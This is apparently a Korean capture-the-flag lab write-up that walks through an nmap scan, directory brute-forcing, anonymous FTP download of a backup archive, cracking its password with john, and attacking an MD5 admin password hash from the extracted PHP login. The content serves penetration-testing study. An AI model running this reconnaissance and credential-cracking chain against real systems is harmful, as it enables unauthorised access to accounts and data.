

nmap scan 결과를 우선 보자.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# nmap 10.129.19.142 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 13:37 UTC
Nmap scan report for 10.129.19.142
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

gobuster 수집 결과는 아래와 같다.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# gobuster dir -u http://10.129.19.142 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.19.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2312]
/license.txt          (Status: 200) [Size: 1100]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/dashboard.php        (Status: 302) [Size: 931] [--> index.php]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

열려있는 ftp 서비스에 대해 anonymous로 접속을 시도해보니 열려있기에 업로드 되어 있는 압축 파일을 다운로드 했다.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# ftp anonymous@10.129.19.142
Connected to 10.129.19.142.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10906|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

다운로드 한 파일을 압축해제 하려 했으나 암호가 걸려있다. 파일 리스트만 확인해보니 index.php, style.css 이렇게 2개 파일이 존재하고 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:

┌──(root㉿9048af13b510)-[/htb]
└─# unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2594  2020-02-03 10:57   index.php
     3274  2020-02-03 19:04   style.css
---------                     -------
     5868                     2 files
```

압축 파일에 대해 패스워드를 크랙하기 위해 john the ripper를 사용할 수 있다. 아래와 같이 zip2john와 john을 활용해보자.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# zip2john backup.zip >hash.txt
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8

┌──(root㉿9048af13b510)-[/htb]
└─# cat hash.txt
backup.zip:$pkzip$2*1*1*0*8*24*5722*543fb39ed1a919ce7b58641a238e00f4cb3a826cfb1b8f4b225aa15c4ffda8fe72f60a82*2*0*3da*cca*1b1ccd6a*504*43*8*3da*989a*...

┌──(root㉿9048af13b510)-[/htb]
└─# john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)
1g 0:00:00:00 DONE 2/3 (2024-02-26 14:00) 11.11g/s 2505Kp/s 2505Kc/s 2505KC/s 123456..Sssing
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

획득한 비밀번호로 압축을 성공적으로 해제 할 수 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
  inflating: index.php
  inflating: style.css

┌──(root㉿9048af13b510)-[/htb]
└─# ls -al
total 1164
drwxr-xr-x 2 root root    4096 Feb 26 14:01 .
drwxr-xr-x 1 root root    4096 Feb 26 13:51 ..
-rw-r--r-- 1 root root    2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root    3274 Feb  3  2020 style.css
```

압축 해제한 index.php의 내용을 보니 흥미롭게도 패스워드의 md5 값 비교 부분이 있다. 해당 md5 값을 만들어내는 평문을 찾아서 입력해주면 admin으로 로그인이 가능할 듯 하다.
``` php
┌──(root㉿9048af13b510)-[/htb]
└─# cat index.php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

마찬가지로 john을 통해 md5값의 주인을 찾아보자. format=raw-md5 를 지정해주어야 한다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# echo 2cb42f8734ea607eefed3b70af13bbd3 > md5.txt

┌──(root㉿9048af13b510)-[/htb]
└─# john --format=raw-md5 md5.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII

```

```
┌──(root㉿9048af13b510)-[/htb]
└─# hashcat -a 0 -m 0 md5.txt

Session..........: hashcat
Status...........: Running
Hash.Mode........: 0 (MD5)
Hash.Target......: 2cb42f8734ea607eefed3b70af13bbd3
Time.Started.....: Mon Feb 26 14:17:33 2024 (1 min, 50 secs)
Time.Estimated...: Mon Feb 26 14:19:23 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: Pipe
Speed.#1.........:        0 H/s (0.00ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 0
Rejected.........: 0
Restore.Point....: 0
Restore.Sub.#1...: Salt:0 Amplifier:0-0 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: [Copying]
```


https://crackstation.net/

